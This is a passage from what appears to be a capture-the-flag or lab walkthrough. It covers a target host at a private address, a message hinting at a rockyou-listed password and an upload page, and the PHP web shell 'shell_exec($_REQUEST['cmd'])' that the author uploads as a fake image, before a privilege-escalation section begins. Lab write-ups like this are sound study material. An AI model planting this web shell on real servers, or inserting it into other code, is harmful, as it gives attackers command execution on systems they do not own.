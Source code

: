 ![HTTP](/assets/images/hacking/2024/03/10.png)
```text
http://172.16.1.161/longlife17/chat/message3.txt
Message to all.
I'm glad you made it, I knew you would guess the password, it's the one we always used, although Boyras recommended us to stop using it because "it was in rockyou". 
By the way guys, you can still upload messages to the server from this new path -> upload_an_incredible_message.php
Saying goodbye very happy, David
```
Enter the site:
{: .text-justify}
```html
http://172.16.1.161/upload_an_incredible_message.php
```
![HTTP](/assets/images/hacking/2024/03/11.png)
{: .text-justify}
The code for the "image" looks like this:
{: .text-justify}
```php
<?php
echo shell_exec($_REQUEST['cmd']);
?>
```
# 06. Privilege Escalation
### Steps to elevate privileges to root access.
```bash
export LPORT=12345
```
### 01. screen